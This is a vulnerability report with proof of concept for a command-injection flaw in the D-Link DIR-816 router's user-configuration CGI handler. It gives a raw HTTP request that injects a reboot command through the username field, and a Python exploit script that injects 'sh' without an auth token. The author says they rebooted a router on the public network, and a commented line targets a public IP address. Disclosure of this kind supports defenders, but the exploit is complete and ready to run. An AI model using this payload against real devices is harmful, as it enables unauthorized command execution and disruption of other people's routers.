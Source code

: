 Vender ：D-Link

Firmware version:1.10 B05

Exploit Author: doudoudedi233@gmail.com

Vendor Homepage: http://www.dlink.com.cn/

Hardware Link:http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816

# report

##### Describe

​	I found some vulnerabilities in the dir-816 750m11ac wireless router ,**Firmware version is**  DIR816_A1_FW101CNB04

​	The HTTP request parameter is used in the handler function of  /goform/form2userconfig.cgi route, which can construct the user name string to delete the user function. This can lead to command injection through shell metacharacters.

​	If the user can configure the router, it may cause unconditional command execution If the user can configure the router, it may cause unconditional command execution.

##### Details

​	goahead Sub_459EF0 ruction in IDA view

![image-20210820151433873](./img/image-20210820151433873.png)

​	Select user account configuration under the maintenance option of router configuration.

![image-20210820151842671](./img/image-20210820151842671.png)

​	 Different from dir-816a2_ FWv1.10CNB05_ R1b011d88210 firmware version this version only needs to close the  command with single quotation marks and then execute our command with a  semicolon ，don't even need to ask for a tokenid

```
POST /goform/form2userconfig.cgi HTTP/1.1
Host: xxxx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 129
Origin: http://xxxx
Connection: close
Referer: http://xxxx/d_userconfig.asp
Cookie: curShow=
Upgrade-Insecure-Requests: 1

username=123';reboot;'&oldpass=123&newpass=123&confpass=123&deluser=Delete&select=s0&hiddenpass=&submit.htm%3Fuserconfig.htm=Send
```

##### POC&&EXP

```python
import requests
import base64
headers={
	"Host":"192.168.33.9",
	"User-Agent":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0",
	"Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
	"Content-Type":"Content-Type",
	"Origin":"http://192.168.33.9",
	"Referer":"http://192.168.33.9/d_userconfig.asp",
	"Cookie":"curShow=",
	"Upgrade-Insecure-Requests":"1"
}
data={
	"username":"123';sh;'",#input Command
	"privilege":"2",
	"oldpass":"123",
	"newpass":"MTIz",
	"confpass":"MTIz",
	"deluser":"\xe5\x88\xa0\xe9\x99\xa4",
	"select":"s0",
	"hiddenpass":"192.168.33.9",
	"submit.htm?userconfig.htm":"Send",
	#"tokenid":"35005211"#Packet capture analysis
}
proxies={
'http':'127.0.0.1:8080',
'https':'127.0.0.1:8080'
}
#url="http://149.28.168.149/goform/form2systime.cgi"
url="http://192.168.33.9/goform/form2userconfig.cgi"
t=requests.post(url,headers=headers,data=data)
print t.text
```

##### TEST

![image-20210820152544416](./img/image-20210820152544416.png)

​	GDB stops at the command we are about to execute

![image-20210820152604249](./img/image-20210820152604249.png)	Successfully executed sh

​	I successfully asked the router on the public network to execute the reboot command

